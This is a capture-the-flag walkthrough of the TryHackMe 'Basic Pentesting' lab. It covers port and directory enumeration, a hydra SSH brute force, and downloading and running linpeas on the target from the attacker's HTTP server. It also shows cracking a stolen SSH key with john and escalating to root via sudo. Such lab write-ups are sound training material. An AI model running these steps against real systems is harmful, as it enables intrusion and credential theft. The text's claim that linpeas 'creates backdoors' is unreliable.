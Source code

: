 # Basic Pentesting - TryHackMe CTF Walkthrough
---

| **Description:**  | _This is a machine that allows you to practise web app hacking and privilege escalation._ |
| ------------- | ------------- |
| **Level:**  | _Easy_   |
| **Approx Duration:**  | _45 minutes_  |
| **Author:**  | _https://tryhackme.com/p/ashu_  |
| **Path:**  | _Offensive Penetration Testing_  |
| **Type:**  | _Free Room_  |

---

https://tryhackme.com/room/basicpentestingjt

Pre-requisite: Boot up the target machine attached to this room and also boot up kali linux and create a tunnel connection to the target machine via openvpn.

---

## Recon

First and foremost we need gather as much information as possible about the target machine, so ideally our first step of engagement would be to do an enumeration.

I have used nmap to scan open ports on the machine and tried to find what services are running on those ports using the basic nmap scan.

```
nmap target_ip -sV
```

![nmap](img/nmap.png)

The scan has revealed that the machine has 6 open ports and their corresponding service, now lets take a close look at each port and understand what type of services they run.

We have also found that the machine is hosted by linux operating system.

The port 80 run a apache httpd 2.4.41 service, which is a webserver, we can visit the webserver on the browser by navigating to the `http:\\target-ip\`. 

![webserver](img/webserver.png)

We are not able to gain any useful information directly from the webserver, as next step in our enumeration we will use a tool called `gobuster` for directory enumeration.

Simple usage of gobuster in directory mode:

```
gobuster dir -u target-ip -w /path-to-wordlist
```

For this directory brute force we need a wordlist, I am using `common.txt` from SecLists. If you do not have it installed already, install the entrire SecList or just get the common.txt from seclist github page.

```
apt-get install seclists
```

![gobuster](img/gobuster.png)

Gobuster has found few common directories on the server, most of them are forbidden, but we can see a directory which has status code 301 which means its been moved.

Let's try and navigate to the directory using browser.

```
http:\\10.10.101.75\development
```

![development](img/development.png)

from the development directory we can see that there 2 text files and comparing the context of the file and the nmap scan result we got from earlier. We can understand that apache server and SMB has been set up and might be worth looking into it.

![dev-txt](img/dev-txt.png)

![j-txt](img/j-txt.png)

We need to find the username and password using the hints from above text files.

Let's try to enumerate smb using `enum4linux`

```
enum4linux -a target-ip
```

This has enumerated the smb and found valid usernames.

![username](img/username.png)

Now we know what j and k means from the txt files.

With the username obtained, we can use hydra to bruteforce the password using a wordlist from secLists.

```
hyrda -l jan -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/darkweb2017_top-10000.txt target-ip ssh 
```

![hydra](img/hydra.png)

With the username and password we got, try to login into ssh with the credentials.

```
ssh jan@target-ip
```

Enter password when prompted.

Now that we are logged in, need to create a reverse shell. Linpeas is a tool that can be uploaded to machine that creates backdoors.

On kali linux, execute the following commands.

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh 
python3 -m http.server 80
```

On the target machine, upload the linpeas tool.

```
wget http://10.17.17.81/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

![linpeas](img/linpeas.png)

Linpeas has enumerated more files and folders apart from previously found files.

I have located id_rsa file in `kay` user profile, but the issue is we do not know the password of kay but we can use this ssh key to authenticate as the user without username and password.

![id_rsa](img/id_rsa.png)

Copy the ssh key to your kali machine and save it.

convert ssh into john hash

```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

unzip rockyou.txt

Kali comes with rockyou.txt.gz (compressed), so follow these steps:

```
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

Run john command to crack the hash.

```
sudo john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt
```

We have cracked password of the user `kay`.

![kay_password](img/kay_password.png)

With this password we can login as kay.

![kay_login](img/kay_login.png)

Use the retrieved password whem prompted.

![kay](img/kay.png)

Successfully logged in as kay.

Look around the files saved under this profile, find the interesting file and cat out the file.

![final-flag](img/Final-flag.png)

Now that we have access to kay's account. lets try find what part of sudo access does the account kay has access to.

![priv-escalation](img/root_access.png)

We can see that kay perform all sudo actions without any limitations. With this we can escalate our privelege by swithing to root user using `sudo su` command.

![root-flag](img/Final_flag.png)

This task completes the challenge. 
---